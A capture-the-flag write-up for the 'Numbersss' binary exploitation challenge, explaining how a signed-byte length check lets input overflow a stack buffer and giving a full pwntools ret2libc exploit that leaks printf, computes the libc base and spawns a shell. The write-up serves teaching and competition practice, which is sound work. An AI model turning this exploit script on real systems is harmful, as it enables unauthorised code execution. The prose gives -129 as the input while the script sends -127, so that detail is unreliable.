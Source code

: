 # Numbersss

Sometimes computer numbers can be so harddd

nc numbersss.chal.cyberjousting.com 1351

## Challenge

```
└─$ ./numbersss
Free junk: 0x7f2247685b30
How many bytes do you want to read in?
1
1
```

Running the program spit this out. Looks like we are given some address here, lets run our checks and open her up.

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
```c
void vuln(void)

{
  undefined local_18 [16];
  
  printf("Free junk: %p\n",printf);
  puts("How many bytes do you want to read in?");
  __isoc99_scanf(&DAT_0040203f,&length);
  if ('\x10' < length) {
    puts("Too many bytes!");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  for (counter = '\0'; counter != length; counter = counter + '\x01') {
    read(0,local_18 + counter,1);
  }
  return;
}
```

Looking at this vuln function we see that the address that was being given to us is the address of printf. This will be important as we will be able to calculate libc base from it. Moving forward we see that the scanf is reading in a `%hhd` to length. We can manipulate this to allow us to write more than `\x10` bytes. For example, if we input -1 it will actually register as 256-1 when being compared to counter because of byte comparison.

So our objectives here will be to calculate the libc address with the given printf address, then we will want to overflow into the return address and place a rop chain that calls the shell.

Playing around with the number that I wanted to input to bypass the `"Too many bytes!"` counter made me land on `-129`. This gave me more than enough space to write my chain and was bypassing the check. It left me with 256-127 bytes (129).

One last thing I needed to iron out before exploiting was the libc file. I wasn't given a libc file with the challenge and actually thought I was supposed to leak more libc addresses in the program and ended up wasting a bunch of time. A teammate pointed me in the right direction and helped me realize it was the libc that was on the docker image given to us. I exfilled both the libc and the linker and used it for my exploit.

```python
from pwn import *

elf = context.binary = ELF('./numbersss')
libc = ELF('./libc.so.6')

#p = process('./numbersss')
p = remote('numbersss.chal.cyberjousting.com', 1351)

#Grabbing printf address
p.recvuntil(b'Free junk: ')
printf = int(p.recvuntil(b'\n').strip(),16)
log.info("Printf Address: {}".format(hex(printf)))

#Offset to return address and length of total payload
offset = 24
length = 129

libc.address = printf - libc.sym['printf']
log.info(hex(libc.address))

#Building rop chain
rop = ROP(libc)
rop.call((rop.find_gadget(["ret"])))
rop.call((rop.find_gadget(["pop rdi", "ret"]))[0])
rop.call(next(libc.search(b'/bin/sh\x00')))
rop.call(libc.sym['system'])

raw_rop = rop.chain()
p.sendlineafter(b'How many bytes do you want to read in?', b'-127')
p.sendline(b'A' * offset + raw_rop  + (b'A'*(length-offset-len(raw_rop))))
p.interactive()
```

After all is done it really is just a standard ret2libc attack with a tricky little number manipulation in the middle.

## Flag

`byuctf{gotta_pay_attention_to_the_details!}`